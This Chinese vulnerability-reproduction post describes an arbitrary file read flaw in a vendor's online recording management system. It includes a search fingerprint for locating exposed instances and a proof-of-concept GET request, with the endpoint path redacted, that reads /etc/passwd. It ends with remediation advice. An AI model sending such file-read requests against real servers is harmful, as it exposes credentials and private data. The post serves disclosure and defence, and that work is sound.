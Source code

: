 #  某通信设备有限公司（漏洞复现）   
原创 Advanced Threat  破晓信安   2025-04-23 01:13  
  
免责声明  
  
**本文仅用于学习和讨论。请勿使用本文所提供的内容及相关技术从事非法活动**  
**，由于传播、利用此文所提供的内容或工具而造成的任何直接或者间接的后果及损失，**  
**均由使用者本人负责，所产生的一切不良后果均与文章作者及本账号**  
**无关**  
**，本次测试仅供学习使用！！！**  
  
漏洞页面  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/UOLTZMImzxsVPsYHEVqsjGIsmwwzXFlOttCdn7C1c7emibemV31wm0mYN7nP9LS8eJnVSbyHKy4BmRKQGLpx99g/640?wx_fmt=png&from=appmsg "")  
  
网络绘测  
```
title="在线录音管理系统"
```  
  
漏洞描述  
```
在线录音管理系统存在高危的任意文件读取漏洞（Arbitrary File Read Vulnerability）。
攻击者可通过构造恶意请求绕过系统安全限制，直接读取服务器上的任意文件。
包括但不限于系统配置文件、数据库连接信息、用户隐私数据等敏感内容。
```  
  
漏洞危害  
```
敏感数据泄露：攻击者可获取数据库账号密码、系统密钥、用户录音文件等核心数据，造成严重信息泄露风险。
服务器权限沦陷：结合图片木马（Webshell）上传漏洞，攻击者可将恶意代码植入服务器，进一步获取系统控制权，执行任意命令。
业务系统破坏：通过读取系统关键文件（如
/etc/passwd），攻击者可探测服务器环境，发起更高级别的攻击，如提权攻击、横向渗透等。
```  
```
GET/XXXXXXXXXXXXXXXXXXXX&file=/etc/passwdHTTP/1.1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_0) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/77.0.3865.90 Safari/537.36
Cache-Control: no-cache
Pragma: no-cache
Host: 
Accept: text/html, image/gif, image/jpeg, *; q=.2, */*; q=.2
Connection: close
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/UOLTZMImzxsVPsYHEVqsjGIsmwwzXFlOeibzZK4KBlWvBAibUiaicuRUxnPsScnHNdSicnxRsPv1mV0Htovwntq4wmw/640?wx_fmt=png&from=appmsg "")  
  
漏洞修复  
```
该漏洞源于系统未对用户输入的文件路径进行严格校验。
立即禁用文件下载功能或设置严格的路径白名单
对用户输入进行规范化处理，过滤../等特殊字符
升级至最新安全版本，或联系厂商获取补丁
```  
  
